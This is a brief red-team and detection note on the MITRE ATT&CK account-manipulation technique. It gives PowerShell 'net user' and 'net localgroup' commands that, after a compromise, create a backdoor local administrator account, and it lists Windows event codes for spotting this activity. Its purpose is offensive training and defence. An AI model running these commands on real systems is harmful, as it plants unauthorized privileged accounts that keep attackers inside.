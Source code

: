 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## **LOCAL USER Exploit syntax:**
1. Get a beacon with local/domain administrative privileges.

2. In parrot open a blank text file and paste the following commands into it
    ```powershell
    net user /add Gearhead Squanch123;
    ```
    ```powershell
    net localgroup administrators /add Gearhead;
    ```

3. Save the file with as `Pencilvester.ps1` to `/tmp`

4. Run
	```sh
	sudo chmod +x /tmp/Pencilvester.ps1
	```

5.  In posh, run
    ```powershell
	pslo /tmp/Pencilvester.ps1
    ```
> **NOTE:** that the above .ps1 file syntax and be modified to change the users password, delete the user, added to a different group(using net localgroup), etc
## **DOMAIN USER Exploit syntax:**

---

## **Detection Technique:**
* Monitor windows events related to account manipulation

* Winlogbeat:
    * Monitor `net.exe` and `net1.exe` processes
    * Monitor the following event codes: 
        * 4720: Added user account
    
        * 4726: Deleted user account
    
        * 4738: Modified user account such as password change
    
        * 4732: Added user account to Administrators group
    
        * 4733: Deleted user account from Administrators group
    
    
    
